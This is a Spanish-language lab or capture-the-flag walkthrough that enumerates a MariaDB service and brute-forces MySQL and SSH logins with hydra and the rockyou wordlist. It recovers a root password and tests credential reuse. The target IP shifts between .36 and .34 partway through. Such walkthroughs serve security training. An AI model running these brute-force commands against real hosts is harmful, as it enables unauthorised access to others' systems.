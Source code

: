 - **Host**: 192.168.100.36 (dirección IP del servidor)
- **Puerto**: 3306/tcp (puerto estándar de MySQL/MariaDB)
- **Estado**: open (el puerto está abierto y accesible)
- **Protocol: 10** - Versión del protocolo de comunicación
- **Version: 5.5.5-10.11.6-MariaDB-0+deb12u1** - Nos revela:
    - Es una distribución **MariaDB** (fork de MySQL)
    - Versión principal: **10.11.6**
    - Compilado para **Debian 12** (deb12u1)
- **SupportsLoadDataLocal**: Permite carga de archivos locales (¡potencial vector de ataque!)
1. **Posible vector de ataque**:
    - El soporte para `LoadDataLocal` podría permitir lectura de archivos con los privilegios adecuados
    - La autenticación con `mysql_native_password` es vulnerable a ataques de downgrade
---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Intentaremos realizar un ataque de fuerza bruta sobre el servicio de **MySQL**
Donde el diccianario **users.txt** cointrempla estos dos usuarios: **( root | mortadela )**
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.100.36 mysql
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
```

Tenemos un usuario valido para **mysql**
```bash
[DATA] attacking mysql://192.168.100.36:3306/
[3306][mysql] host: 192.168.100.36   login: root   password: cassandra
```

Esta credenciales tambien las probaramos por **ssh**, para ver si es que existe reutilizacion de credenciales:
```bash
root: cassandra
root: mortadela
mortadela: cassandra
mortadela: root
```

pero ninguna funciona, mientras dejaraemos un ataque por fuerza bruta en **ssh** para estos usuarios:
```bash
hydra -l mortadela -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://192.168.100.36
```

Procedemos con al enumeracion de **MySQL** ya que tenemos credenciales validas
```bash
mysql -h 192.168.100.34 -u root -p
```

No logramos conectarnos, pero podemos empezar a buscar exploits del plugin de **wordpress**
```bash
mysql -h 192.168.100.34:3306 -u root -p
Enter password: cassandra
ERROR 2005 (HY000): Unknown server host '192.168.100.34:3306' (-2)
```
